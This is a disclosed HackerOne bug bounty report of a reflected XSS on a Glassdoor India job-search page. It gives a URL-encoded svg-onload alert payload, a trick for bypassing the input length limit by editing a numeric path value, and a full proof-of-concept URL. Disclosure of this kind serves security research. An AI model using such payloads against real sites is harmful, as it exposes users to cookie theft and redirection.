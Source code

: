 # Reflected XSS at https://www.glassdoor.co.in/Job/pratt-whitney-jobs-SRCH_KE0,13.htm?initiatedFromCountryPicker=true&countryRedirect=true

## Report Details
- **Report ID**: 971304
- **URL**: https://hackerone.com/reports/971304
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-08-31T14:47:57.703Z
- **Disclosed**: 2021-04-16T02:52:31.497Z

## Reporter
- **Username**: n1xk_10
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: glassdoor

## Vulnerability Information
Summary:  There is a reflected XSS vulnerability in   https://www.glassdoor.co.in/Job/pratt-whitney-jobs-SRCH_KE0,13.htm?initiatedFromCountryPicker=true&countryRedirect=true

Vulnerability Type: Reflected XSS
Browsers tested: Chrome, Firefox
Payload: %22%3cimg%20src%3dx%20onerro%3d%3e%3csvg%20onload%3dalert%281%29%3e

Steps To Reproduce:
1. Navigate to  https://www.glassdoor.co.in/Job/pratt-whitney-jobs-SRCH_KE0,13.htm?initiatedFromCountryPicker=true&countryRedirect=true

2.   /Job/[INPUT]pratt-whitney-jobs-SRCH_KE0,13.htm?
     if we input any value in the path then it is reflected on the page.
     Enter this payload here: %22%3cimg%20src%3dx%20onerro%3d%3e%3csvg%20onload%3dalert%281%29%3e

3. But there is a character length limitation to the input.

4.   /Job/pratt-whitney-jobs-SRCH_KE0,[This value].htm? 
     We can bypass the character limitation by changing this value

5. Now change this value from 13 to 50

6.   Now open this url: https://www.glassdoor.co.in/Job/%22%3cimg%20src%3dx%20onerro%3d%3e%3csvg%20onload%3dalert%281%29%3epratt-whitney-jobs-SRCH_KE0,50.htm?initiatedFromCountryPicker=true&countryRedirect=true
     See the response in browser, an alert will pop up

## Impact

Using XSS an attacker can steals the victim cookie and can also redirect him to a malicious site controlled by the attacker.

## Attachments
- Screenshot_at_2020-08-31_20-13-09.png
